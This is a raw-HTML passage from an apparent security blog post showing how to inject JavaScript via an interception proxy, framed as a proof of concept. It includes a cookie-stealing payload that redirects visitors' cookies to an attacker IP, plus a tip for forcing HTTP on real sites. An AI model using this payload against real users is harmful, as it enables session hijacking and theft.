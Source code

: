 <span style="font-family: courier;">&nbsp;</span></span></p><p><span style="font-size: medium;"><span style="font-family: courier;">&lt;script&gt;document.cookie = "username=Null Byte";&lt;/script&gt;</span></span></p><p><span style="font-size: medium;"><span style="font-family: courier;"></span></span></p><div class="separator" style="clear: both; text-align: center;"><span style="font-size: medium;"><a href="https://blogger.googleusercontent.com/img/a/AVvXsEiCnj2RICpvcC8jsorbVzySDEPr11gDrhlBF77StTjEkq65EZyBukTkqjg0kTPOs5o6RIEvwN4U6yHpRn9o2zKbSRWM1ZOexuesbp1I7Pyz0wlBVFCfbg3aFAx8l6w11ezhRkcw4EUsoGcaF8EzDgjb4RxduyS_KPZXE4mjEoalt5cHzZZ1-PdHGXNN1A=s854" style="margin-left: 1em; margin-right: 1em;"><img border="0" data-original-height="463" data-original-width="854" height="269" src="https://blogger.googleusercontent.com/img/a/AVvXsEiCnj2RICpvcC8jsorbVzySDEPr11gDrhlBF77StTjEkq65EZyBukTkqjg0kTPOs5o6RIEvwN4U6yHpRn9o2zKbSRWM1ZOexuesbp1I7Pyz0wlBVFCfbg3aFAx8l6w11ezhRkcw4EUsoGcaF8EzDgjb4RxduyS_KPZXE4mjEoalt5cHzZZ1-PdHGXNN1A=w498-h269" width="498" /></a></span></div><p></p><p><span style="font-size: medium;"><span style="font-family: courier;">&nbsp;</span><span>&nbsp;&nbsp;&nbsp; </span><span>This just passes our static username variable in a cookie to anyone who visits. Next we'll adjust the javascript payload in our proxy to something designed to steal this.&nbsp;</span></span></p><p><span style="font-size: medium;"><span><span style="font-family: courier;">&lt;script&gt; document.location='http://192.168.202.141?c='+document.cookie;&lt;/script&gt;<span></span></span></span><span>&nbsp;</span></span></p><p><span style="font-size: medium;"><span><span>&nbsp;&nbsp; &nbsp;</span>Then we'll just use Pythons simple http.server module on the receiving host to print out the cookie.</span><span><span style="font-family: courier;"><span><span> <span style="font-size: large;"><span style="font-family: georgia;">Now when we browse to the site again, our cookie gets stolen.</span></span></span> <br /></span></span></span></span></p><div class="separator" style="clear: both; text-align: center;"><span style="font-size: medium;"><a href="https://blogger.googleusercontent.com/img/a/AVvXsEhCR4MNDv4Hv7ARwv-hm1UuCl35mySAHtBAXQz_6vB_OOR-rvccuNBLU20MvMtgUmUfT62s9vjkuoH2h1loJWTnltDMJ7RWjnQD0jKtXkJnve0-XEMdV961JxS0XZLpyEhpi6JJdYiYzT9yTF6DjUT9istI39eumdpShqRYhKlW5q7VQ4oWDyh-s9rySg=s814" style="margin-left: 1em; margin-right: 1em;"><img border="0" data-original-height="70" data-original-width="814" height="52" src="https://blogger.googleusercontent.com/img/a/AVvXsEhCR4MNDv4Hv7ARwv-hm1UuCl35mySAHtBAXQz_6vB_OOR-rvccuNBLU20MvMtgUmUfT62s9vjkuoH2h1loJWTnltDMJ7RWjnQD0jKtXkJnve0-XEMdV961JxS0XZLpyEhpi6JJdYiYzT9yTF6DjUT9istI39eumdpShqRYhKlW5q7VQ4oWDyh-s9rySg=w586-h52" width="586" /></a></span></div><span style="font-size: medium;"> </span><span style="font-size: medium;"><span><span style="font-family: courier;"><div class="separator" style="clear: both; text-align: center;"><a href="https://blogger.googleusercontent.com/img/a/AVvXsEjRvMp4rBdPYWX6rKQTHiUV9d-Y71bmbMn0QWkpZEO7rsqtVUDlV3wb6Nu_rEBZt0-Yhs0Q4CbxWXyfaIpuOyGqjoiwdXOqjrwOjVbbvwqWCkTHfksjs69MfId9JJNlh70ruzsL4VfjJXGSczys6iDjORTQUlzJjlOv_q51NPOfrgGF2zX6nmbLd15yKA=s718" style="margin-left: 1em; margin-right: 1em;"><img border="0" data-original-height="203" data-original-width="718" height="151" src="https://blogger.googleusercontent.com/img/a/AVvXsEjRvMp4rBdPYWX6rKQTHiUV9d-Y71bmbMn0QWkpZEO7rsqtVUDlV3wb6Nu_rEBZt0-Yhs0Q4CbxWXyfaIpuOyGqjoiwdXOqjrwOjVbbvwqWCkTHfksjs69MfId9JJNlh70ruzsL4VfjJXGSczys6iDjORTQUlzJjlOv_q51NPOfrgGF2zX6nmbLd15yKA=w536-h151" width="536" /></a> <br /></div></span></span></span><p></p><p><span style="font-size: medium;"><span><span style="font-family: courier;">&nbsp;</span></span></span><span>&nbsp;&nbsp; </span><span><span style="font-size: medium;"><span><span style="font-size: medium;">If you want to try this on a real site, you can force it to negotiate in HTTP by stripping the <span style="font-family: courier;">Upgrade-Insecure-Requests</span> header, but this is a little heavy handed and obvious to end users if you wanted to use this in an engagement. </span></span>If you want to take this a step further, you can look at how mitmproxy handles SSL/TLS because the <a href="https://github.com/mitmproxy/mitmproxy" target="_blank">documentation for it outlines that this is supported</a> for web requests. For now though, this was a fun proof of concept. We didn't fully implement the CIAs vision in this example, but javascript can accomplish the same thing as an iFrame so it is a fairly close comparison.</span><br /></span></p><p></p>